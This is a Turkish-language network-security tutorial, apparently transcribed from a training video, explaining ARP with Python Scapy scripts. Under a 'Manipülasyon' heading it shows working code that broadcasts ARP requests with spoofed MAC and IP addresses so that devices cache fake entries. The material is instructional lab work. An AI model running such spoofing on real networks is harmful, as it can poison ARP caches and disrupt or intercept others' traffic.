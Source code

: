 # **Network Hacker 0x02 - Ağ Protokollerine Fısılda /w Barkın Kılıç**  

Eğitim serisinin [2. videosunu](https://www.twitch.tv/videos/645094492) yazılı hale getirmeye çalışacağım. Keyifli okumalar dilerim.  

## **0x00 : Giriş**
Bir önceki eğitimde, ağ içerisindeki haberleşme süreçlerini incelemiştik. ARP protokolü üzerinden bir mesaj paketi oluşturup karşı tarafa gönderiyor ve gelen cevapları analiz ediyorduk. Bu işlemleri bir Python betiği ile otomatikleştirmiştik.  


## **0x01 : Topoloji Üzerinden ARP-1 Betiği İncelemesi**

![topoloji](/img/0x02/1.png)

```python
from scapy.all import * 

ether_header = Ether(src="00:11:22:33:66:99", dst="ff:ff:ff:ff:ff:ff")
arp_header = ARP(hwsrc="00:11:22:33:66:99", psrc="10.0.40.67", hwdst="00:00:00:00:00:00", pdst="10.0.40.3", op=1)
packet = ether_header / arp_header
ls(packet)
sendp(packet) 
``` 

**`Ether` Başlığı:**  
  - **`src:`** Kaynak MAC adresi (sahte bir MAC adresi).  
  - **`dst:`** Broadcast adresi (`ff:ff:ff:ff:ff:ff`) ile tüm cihazlara gönderiliyor.  


**`ARP` Başlığı:**  
  - **`hwsrc:`** Sahte MAC adresi.  
  - **`psrc:`** Sahte IP adresi (`10.0.40.67`).  
  - **`hwdst:`** Hedefin fiziksel adresi (bilinmediği için `00:00:00:00:00:00`).  
  - **`pdst:`** Hedef IP adresi (`10.0.40.3`).  
  - **`op=1:`** Bu bir ARP Request paketidir.  


Hedef cihazın MAC adresi gibi detayları öğrenmek amacıyla bir ARP isteği gönderir. **Wireshark** üzerinde paket analizini incelediğimizde Switch ve Windows cihazları gönderilen IP ve MAC adreslerini ARP tablolarına kaydeder. Ancak bu adresler, gerçekte var olmayan sahte bilgiler içerir.  


## **0x02 : Manipülasyon**  

```python
from scapy.all import *  

ether_header = Ether(src="00:11:22:33:66:34", dst="ff:ff:ff:ff:ff:ff")  
arp_header = ARP(hwsrc="00:11:22:33:66:67", psrc="10.0.40.68", hwdst="00:00:00:00:00:00", pdst="10.0.40.3", op=1)  
packet = ether_header / arp_header  
ls(packet)  
sendp(packet)  
```  
